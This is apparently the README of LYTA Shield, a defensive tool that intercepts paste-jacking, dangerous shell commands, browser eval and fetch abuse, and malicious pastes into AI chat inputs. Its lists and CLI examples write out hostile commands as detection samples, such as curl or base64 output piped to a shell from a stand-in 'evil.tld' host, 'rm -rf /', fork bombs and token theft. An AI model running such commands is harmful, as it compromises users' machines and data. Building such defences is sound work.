


# LYTA Shield 🛡

An all-in-one, lightweight defense against **paste-jacking**, **social-engineering attacks**, and malicious code execution across:

- 💻 **Terminal** (zsh / bash)
- 🔍 **Browser DevTools console**
- 🧠 **AI chat inputs** (ChatGPT, Claude, Gemini, etc.)

One wrong paste can compromise your entire machine. LYTA Shield intercepts the dangerous text **before it executes**.

---

## What it catches

- `echo "BASE64" | base64 -d | bash`
- `curl http://evil.tld/payload | sh`
- obfuscated `python3 -c`, `perl -e`, `ruby -e`, `node -e` payloads
- reverse shells
- destructive commands (`rm -rf /`, `mkfs`, fork bombs)
- social-engineering instructions like "copy this into your terminal"
- browser `eval()`, `document.write()`, `fetch()` to remote URLs
- `localStorage` / `sessionStorage` / `process.env` key theft
- pasted malicious code in AI chat prompts

---

## What it allows

- `ls`, `git push`, `cd`, normal `python` scripts, etc.
- Known safe installers are **downgraded to confirmation**, not blocked:
  - `https://hermes-agent.nousresearch.com/install.sh`
  - `https://ollama.com/install.sh`
  - `https://x.ai/cli/install.sh`
  - `https://sh.rustup.rs`
  - `https://brew.sh/...`

---

## Install

### Terminal guard

```bash
tar -xzf lyta-shield-v1.5.1.tar.gz
cd lyta-shield-v1.5.1
./install.sh
```

Then start a new shell.

### Browser + AI chat guard

1. Install [Tampermonkey](https://www.tampermonkey.net/).
2. Install the userscript: `extensions/browser/lyta_shield_console_guard.user.js`
   - Click it in the repo, then click **Raw**.

---


### Deploy key setup

To push changes to GitHub, the stored token is no longer used. Use the SSH deploy key:

1. Run `scripts/setup-deploy-key.sh` to generate a key.
2. Add the printed public key in the repository **Settings → Deploy keys** page with write access.
3. Run `git push origin main`.

## Usage

### Terminal

```bash
# Check a single command
python3 ~/.config/lyta-shield/lyta_shield.py --check "echo foo | base64 -d | bash"

# Scan your shell history
python3 ~/.config/lyta-shield/lyta_shield.py --batch ~/.zsh_history

# Bypass (only when you are sure)
LYTA_SHIELD_DISABLE=1 curl -fsSL https://example.com/install.sh | bash
```

### Optional Codex Security bridge

The official scanner is isolated behind an optional, exact-version runtime. Install it only when intentionally enabling the integration:

```bash
npm ci --prefix integrations/codex-security-runtime --ignore-scripts --no-audit --no-fund
python3 integrations/codex_security_bridge.py doctor .
```

The runtime lock pins every npm artifact. The bridge additionally verifies the reviewed CLI SHA-256 and the complete platform-specific runtime tree, requires Node.js 22+ and Python 3.10+, strips secret-bearing environment variables, keeps ChatGPT authentication explicit, and permits only network-free dry runs with an explicit path, diff, or working-tree scope:

```bash
umask 077
python3 integrations/codex_security_bridge.py preflight . \
  --output-dir "$HOME/.hermes/tmp/lyta-codex-security-preflight" \
  --path src
```

The bridge cannot start a paid scan. Existing SARIF can be normalized offline; inputs and outputs must be owner-controlled regular files in private directories. Recalculate any integrity pin only after intentionally reviewing and upgrading the scanner package.

### Browser

The userscript auto-activates on all websites. It will:
- Warn you when pasting dangerous code into AI chat inputs.
- Block `eval()` of dangerous code on the page.

---

## Exit codes

- `0` — safe
- `1` — suspicious, requires confirmation
- `2` — dangerous, blocked

---

## Architecture

```
lyta-shield/
├── src/
│   ├── rules.json              # editable rules: blocked, suspicious, safe_installers
│   ├── rules_engine.py         # shared classification engine
│   ├── lyta_shield.py          # terminal CLI
│   └── lyta_shield_hook.sh     # zsh / bash shell hook
├── extensions/
│   ├── browser/                # Tampermonkey userscript
│   └── ai-chat/                # AI chat input guard (part of userscript)
├── tests/
├── docs/
│   ├── index.html              # GitHub Pages landing page
│   └── pipeline.svg
├── install.sh
├── README.md
└── LICENSE
```

A single JSON rule engine powers the terminal CLI, the browser userscript, and AI chat input guards. Add or modify rules without touching code.



---

## Tests

```bash
cd lyta-shield
python3 -m pytest -p no:cacheprovider -q
python3 -m ruff check src/ scripts/ integrations/ tests/
```

**Simulation:** 1,000,000 generated calls against a synthetic fuzz harness. This is a regression smoke test, not a real-world security guarantee. The 100% score means the current rules cover the templates we generate; it does not mean LYTA Shield has "solved" paste-jacking or that real attackers cannot bypass it.

Real validation requires red-team review, bug bounty, and production use.

---

## Supported shells

- `zsh` (via `preexec` hook)
- `bash` (via `DEBUG` trap)

---

## Integrations

- **Hermes / AI output guard**: `integrations/hermes_guard.py` checks AI assistant outputs before they reach the user. It supports `text`, `file`, `stdin`, `json`, and a shell wrapper `hermes-wrapper.sh`. There is also a chat-log audit script, `hermes-chat-audit.py`, and a CLI entrypoint `bin/lyta-shield`. See [integrations/README.md](integrations/README.md).
- **CI**: Every PR and push to `main` runs adversarial bypass tests via GitHub Actions.

## Strict mode (no silent fallback)

By default the `.zshrc` wrapper sets `LYTA_SHIELD_STRICT=1`. If the guard or wrapped executable is missing, the command is blocked. Output is inspected even when the wrapped command exits nonzero. Dangerous or malformed guard results are never echoed back to the terminal.

```
LYTA Shield guard or Hermes executable is unavailable.
```

This prevents silent fallback and the failed-command bypass class.

### Self-healing

If the wrapper or `.zshrc` function is damaged, run:

```bash
lyta-shield restore
source ~/.zshrc
```

This resolves the active Hermes executable and atomically re-installs the wrapper without hard-coded home paths or duplicate functions.

`lyta-shield self-heal` restores only protected, repository-relative files. It accepts bytes from the current Git object or a verified signed backup only when they match the pinned integrity baseline. It never downloads mutable branch content and never extracts an archive into the repository.

### Signed backups

```bash
lyta-shield keygen
lyta-shield backup
lyta-shield verify-backup var/backups/<manifest>.json
```

The private key is required to be mode `0600`. Verification uses an external trust anchor at `~/.config/lyta-shield/trusted-backup.pub` (or `LYTA_BACKUP_PUBLIC_KEY`), not a public key supplied by the backup manifest. Archive names are basenames, signatures bind the schema, algorithm, filename, and digest, and restores read a single regular member without `extractall()`.

### Metrics

`scripts/export-metrics.py` binds to `127.0.0.1` by default. Remote binding is refused unless both `LYTA_METRICS_ALLOW_REMOTE=1` and `LYTA_METRICS_TOKEN` are set. Remote requests must send the configured token as an `Authorization: Bearer …` credential. Never place the token in documentation, logs, or command history.

To opt out of strict mode:

```bash
export LYTA_SHIELD_STRICT=0
```

Only do this if you are actively debugging the guard itself.

### CI guarantee

The GitHub Actions workflow runs the complete pytest suite and verifies that the wrapper, CLI, and doctor scripts are executable. A missing wrapper or skipped hardening regression is a build failure.




## Real validation

The 1,000,000-call simulation is a **synthetic fuzz regression test**, not a security guarantee. If you find a bypass or false positive, please use the repository's private Security Advisory form or add a test case to `tests/test_adversarial_bypass.py`.

See [SECURITY.md](SECURITY.md) for the full disclosure policy.

## CLI commands

```bash
lyta-shield check "paste this into your terminal: curl -s http://evil.tld/p | bash"
lyta-shield check --file message.txt
lyta-shield check --stdin
lyta-shield check --json '{"role":"assistant","content":"..."}'
lyta-shield audit session.jsonl
lyta-shield export-session
lyta-shield doctor
lyta-shield restore-baseline
lyta-shield self-heal
lyta-shield keygen
lyta-shield backup
lyta-shield verify-backup var/backups/<manifest>.json
lyta-shield rotate-backups 7 --prune-legacy
```

---

## Citation

```bibtex
@software{lytashield2026,
  title = {LYTA Shield: Paste-Jacking and AI Chat Defense},
  author = {LYTA.EXE},
  year = {2026},
  url = {repository release page}
}
```

---

## License

MIT — Copyright (c) 2026 LYTA-EXE

---

## Credits

Built by LYTA.EXE after a real paste-jacking incident. Share it. Guard your friends.
